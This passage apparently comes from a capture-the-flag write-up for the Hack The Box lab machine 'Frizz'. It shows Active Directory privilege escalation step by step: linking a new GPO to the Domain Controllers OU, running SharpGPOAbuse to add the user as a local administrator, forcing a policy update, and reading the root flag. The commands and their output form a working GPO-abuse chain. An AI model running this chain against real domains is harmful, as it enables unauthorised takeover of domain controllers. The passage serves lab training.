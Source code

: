 Next we can link this GPO to a target OU, in this case the `Domain Controllers` OU.

```console
PS C:\Users\M.SchoolBus> New-GPLink -Name "NewGPO" -Target "OU=Domain Controllers,DC=FRIZZ,DC=HTB"

GpoId       : ccb9eb1b-ed08-4efc-89da-e65c2bcf6599
DisplayName : NewGPO
Enabled     : True
Enforced    : False
Target      : OU=Domain Controllers,DC=frizz,DC=htb
Order       : 2
```

Next we can run `SharpGPOAbuse.exe` to create a new local admin account.

```console
PS C:\Users\M.SchoolBus> .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName NewGPO
[+] Domain = frizz.htb
[+] Domain Controller = frizzdc.frizz.htb
[+] Distinguished Name = CN=Policies,CN=System,DC=frizz,DC=htb
[+] SID Value of M.SchoolBus = S-1-5-21-2386970044-1145388522-2932701813-1106
[+] GUID of "NewGPO" is: {CCB9EB1B-ED08-4EFC-89DA-E65C2BCF6599}
[+] Creating file \\frizz.htb\SysVol\frizz.htb\Policies\{CCB9EB1B-ED08-4EFC-89DA-E65C2BCF6599}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
[+] Done!

PS C:\Users\M.SchoolBus> gpupdate /force

Updating policy...

Computer Policy update has completed successfully.
User Policy update has completed successfully.

PS C:\Users\M.SchoolBus> net localgroup administrators

Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members
-------------------------------------------------------------------------------
Administrator
M.SchoolBus
The command completed successfully.
```

In another session we can read the root flag.

```console
PS C:\Users\Administrator\Desktop> type root.txt
```
